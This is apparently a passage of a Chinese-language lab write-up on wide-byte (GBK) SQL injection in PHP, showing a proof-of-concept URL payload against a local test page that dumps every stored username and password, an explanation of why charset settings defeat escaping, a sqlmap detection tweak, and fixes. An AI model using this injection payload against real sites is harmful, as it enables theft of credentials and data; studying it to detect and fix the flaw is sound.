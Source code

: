 poc
```shell
http://127.0.0.1/multi-bytes-inject-3.php?userName=Dumb%E9%8C%A6%27%20or%201=1%20%23
```
result
```shell
Dumb�\\\' or 1=1 #username : 1 
pass : Dumbusername : 2 
pass : Angelinausername : 3 
pass : Dummyusername : 4 
pass : secureusername : 5 
pass : stupidusername : 6 
pass : supermanusername : 7 
pass : batmanusername : 8 
pass : adminusername : 9 
pass : admin1username : 10 
pass : admin2username : 11 
pass : admin3username : 12 
pass : dhakkanusername : 14 
pass : admin4
```
但是发现了没有在我echo的地方插入的结果为```Dumb�\\\'```也就是说这里的转义符转义是成功的，问题还是出现在下面的```mysqli_query($con,"set NAMES gbk");```上，其实这里的“之后”，本质上也还是在“字符操作”前进行了转义的操作

其实我想了很久为什么这里会需要去```mysqli_query($con,"set NAMES gbk");```在我把这一行的代码注释掉后，再去访问链接，页面爆出了错误
```shell
Illegal mix of collations (gbk_chinese_ci,IMPLICIT) and (utf8_general_ci,COERCIBLE) for operation '='
```
也就是说在取出sql语句执行结果时内部的字符集是两个不同字符集的字符串，这里先mark一下，还是有点迷糊，目前理解就是为了保证程序正常运行所以会加上这一句。

# 0X04 黑盒检测思路
首先给出结论sqlmap不能跑出宽字节的注入，除非你在输入的是下面这样的数据包```python sqlmap.py -u "http://127.0.0.1/multi-bytes-inject-2.php?userName=Dumb%df"```

我的思路在sqlmap的boundaries.xml中加入带有上面这样字符的boundaries来使sqlmap能够检测宽字节注入

E98CA6这个字符不能作为我们的选择因为gbk -> utf-8的场景也就是场景2的场景下，A65C不是一个gbk字符导致iconv会报错，如下
```shell
iconv(): Detected an illegal character in input string
```
这里我选择的是E98E88作为检测的boundaries，可以覆盖上面的四种场景

# 0X05 修复思路
1. 设置```character_set_client=binary```原因详见[从安全角度深入理解MySQL编码转换机制](http://www.freebuf.com/articles/web/154932.html)

2. 使用```mysqli_set_charset```替换```set NAMES gbk ```，尽量使用```mysqli_real_escape_string```替换```addslashes```，如果一定要使用addslashes参见第一种方法

# 0X06 参考
[浅析白盒审计中的字符编码及SQL注入](https://www.leavesongs.com/PENETRATION/mutibyte-sql-inject.html)

[宽字节注入深入研究](http://www.evilclay.com/2017/07/20/%E5%AE%BD%E5%AD%97%E8%8A%82%E6%B3%A8%E5%85%A5%E6%B7%B1%E5%85%A5%E7%A0%94%E7%A9%B6/)